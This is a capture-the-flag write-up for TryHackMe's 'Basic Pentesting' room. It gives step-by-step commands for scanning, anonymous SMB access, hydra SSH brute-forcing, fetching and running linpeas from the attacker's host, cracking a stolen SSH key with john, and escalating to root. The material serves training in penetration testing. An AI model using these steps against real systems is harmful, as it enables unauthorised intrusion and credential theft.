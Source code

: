 # Writeup for [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt) from [Try Hack Me](https://tryhackme.com)

## Table of Contents
[Setting Up](#setting-up)  
[Information Gathering and Enumeration](#information-gathering-and-enumeration)  
[Gaining Access](#gaining-access)  
[Privilege Escalation](#privilege-escalation)  

## Setting Up
1. Make sure you are connected to the TryHackeMe VPN Network.
2. Make sure you have deployed the machine and there is a valid IP Address that you can hit.
3. If any of this sound unfamiliar, please consult the Try Hack Me help page.

## Information Gathering and Enumeration
To start things off, we should run an nmap scan on the machine.  
```
nmap -v -sC -sV -oN nmap/initial 10.10.2.82
```  
>Legend:
>1. -v -> verbose mode
>2. -sC -> Use nmap default script
>3. -sV -> enumerate service versions
>4. -oN -> output normal format in the nmap directory with the file called initial
>5. 10.10.2.82 -> IP address of the victim machine

After running the nmap scan, we should see our results in the nmap directory.  
I am using `less` to view the results.

![nmap results](./img/nmap-result.png)  

We can see quite a few services running on this server. But I would like to start with those http services on port 80 and 8080. Those samba shares might also contain some juicy info.  
We should hit that http server on port 80 by searching the victim IP address in our web browser with the http schema (http://10.10.2.82).  

We see a page that says that it is undergoing maintencance.    

![port80-undergoing-maintencance](./img/port80-undergoing-maintencance.png)  


If we view the page source for this particular page, then we could see some comments from the devs.    

![port80-maintencance-source](./img/port80-maintencance-source.png)  

Based on this comment, we could assume that there will be a developers page or something of the sort. So let's investigate.  
I'm going to use a tool called `gobuster` to fuzz directories.
```
gobuster dir -u http://10.10.2.82 -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -o gobuster/port80-root
```
>Legend:
>1. dir -> specify directory fuzzing mode
>2. -u -> url
>3. -w -> wordlist to use ( I use [SecLists](https://github.com/danielmiessler/SecLists) ( SecLists is also in the kali repos ))
>4. -o -> outfile to the directory gobuster with the file called port80-root

While that is running in the background we should check those samba shares.  
We can use the default `smbclient` tool on Linux.
```
smbclient -L \\\\10.10.2.82\\
```
>Legend:
>1. -L -> List shares

We could try using anonymous login by typing the password as anonymous or leaving it blank is also fine.  

![smb-list](./img/smb-list.png)  

After knowing the name of the share we could simply connect to that share with anonymous login once again.  

![smb-connect](./img/smb-connect.png)  

After that we can run `ls` to list all files and directories in that share, and we see staff.txt. We can download that file by running `get staff.txt`.

![staff-txt](./img/staff-txt.png)  

We can see potential users on the box from that staff.txt which are `jan` and `kay`. We should write that to a file to potentially brute-force passwords againts SSH on the box. I will write it to a file called creds.txt where every entry is on its own line.  

Going back to our gobuster scan, we found a peculiar directory called **development**.  

![gobuster-development](./img/gobuster-results.png)  

After visiting that webpage, we can see 2 files which are dev.txt and j.txt. We should download both of them.

![port80-dev](./img/port80-dev.png)

![wget-dev](./img/wget-dev.png)  

From reading j.txt we can assume that one of the users has a weak password. We could assume J stands for the user jan and K for the user kay.
Weak password are always good for us as attackers because we can probably brute-force that password using a popular wordlist like **rockyou.txt**. ( If you are using Kali or Parrot, it's in /usr/share/wordlist/rockyou.txt )  

## Gaining Access
I'm going to use a brute-forcing tool called `hydra`. And we are going to use that file that we created, creds.txt.
```
hydra -L creds.txt -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt ssh://10.10.2.82
```
>Legend:
>1. -L -> List of users
>2. -P -> List of passwords
>3. ssh:// -> bruteforce the SSH Protocol ( default port 22 , change if necessary )  

Give it some time depending on your hardware, and we should get some passwords.  

![hydra-result](./img/hydra-result.png)  

We found jan's password which we can use to authenticate via ssh to the box.
We should also update our creds.txt file for that password, just to keep track.

```
ssh jan@10.10.2.82
```  
## Privilege Escalation

Once we gain access we should try some low hanging fruit like `sudo -l` since we know jan's password. Sadly jan can't run sudo on this box, so we should try some automated enumeration to look for more low hanging fruit.  
I personally love to use [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git), so let's upload this script to the box.

On the directory where linpeas is stored, run `python3 -m http.server` to run a simple http server.

![linpeas-attacker](./img/linpeas-attacker.png)  

On the victim machine, navigate to a more isolated directory ( I use /dev/shm ) and run `wget http://[YOUR IP ADDRESS]:8000/linpeas.sh`
( To check your tryhackme IP address, run `ip a s tun0` on your machine.)

![linpeas-victim](./img/linpeas-victim.png)  

Mark the script as executable with `chmod +x linpeas.sh` and just run the script. I usually like to keep a copy of the results so I will also tee it
`./linpeas.sh | tee linpeas.log`  

There will be a lot of output from linpeas, and if you want to view the log file, we can use `less -r linpeas.log`.  

From reading the output of linpeas, I found that kay has an SSH private key accessible to us.

![kay-ssh](./img/kay-ssh.png)  


We can just cat the id_rsa file which is the private key used to authenticate via ssh, and copy it to our local box. We could see that this ssh key is encrypted by reading the first few lines of the file, so we are going to need to decrypt it.  
We are going to use a tool called John The Ripper ( john ).    

First of all we need to convert this encrypted id_rsa file to something that john can decrypt, so there is a script called ssh2john.py.
`ssh2john kay-id_rsa > kay-for_john`

We are going to use this script on a file called `kay-id_rsa` and output it to `kay-for_john`.  
After that, we could just run `john kay-for_john --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt`

![john-result](./img/john-result.png)  

We got the password which is **beeswax**. Now we can use that id_rsa file to authenticate as kay on the box.
`ssh -i kay-id_rsa kay@10.10.2.82`  
Also make sure that we `chmod 600 kay-id_rsa` first so ssh doesn't whine to us that this sshkey is not protected.

![kay-login](./img/kay-login.png)  

Looking at kay's home directory, we can see a pass.bak file that looks like a password when we cat it out. We should test if this is kay's password with `sudo -l`.  
Looks like I was spot on, and we can run anything in this box as root ( from sudo ).

![kay-password](./img/kay-password.png)  

We could simply run `sudo bash` and we should get a root shell!

![root-shell](./img/root-shell.png) 